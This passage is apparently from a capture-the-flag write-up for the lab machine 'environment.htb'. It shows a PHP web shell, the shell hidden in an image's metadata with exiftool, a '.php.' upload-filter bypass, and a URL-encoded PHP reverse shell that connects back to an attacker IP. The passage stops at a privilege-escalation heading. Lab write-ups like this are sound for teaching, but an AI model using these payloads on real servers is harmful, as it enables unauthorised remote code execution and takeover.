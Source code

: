 

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250611160948.png)

Nice, the exploit works, let's go into the dashboard:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250611161045.png)


We got a dashboard and our profile, we can see a bunch of users that are subscribed to the mail listing on here, there are two of them unsubscribed, if we check our profile, we can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250611161133.png)

As seen, we can upload images for our profile picture, the correct approach would be testing for a file upload vulnerability, let's try to embed a php web shell on an image:

```php
<?php if(isset($_REQUEST['cmd'])){ system($_REQUEST['cmd']); die; } ?>
```

Save that as `webshell.php` and do:

```php
exiftool -Comment='<?php if(isset($_REQUEST["cmd"])){ system($_REQUEST["cmd"]); die; } ?>' image.jpg
```


Now, we need to rename the file:

```
mv image.jpg webshell.php
```

If we try uploading the file with a `.php` extension it doesn't work, but, we can try `.php.`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250611163855.png)

As seen, it works and give us the location of the webshell, if we try it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250611163916.png)

We got RCE, nice, let's get a reverse shell:

```
http://environment.htb/storage/files/webshell.php?cmd=php+-r+%27%24sock%3dfsockopen%28%2210.10.15.10%22%2C1111%29%3bexec%28%22%2Fbin%2Fsh+-i+%3C%263+%3E%263+2%3E%263%22%29%3b%27
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250611164331.png)

We got our shell, let's begin privilege escalation.


# PRIVILEGE ESCALATION
---

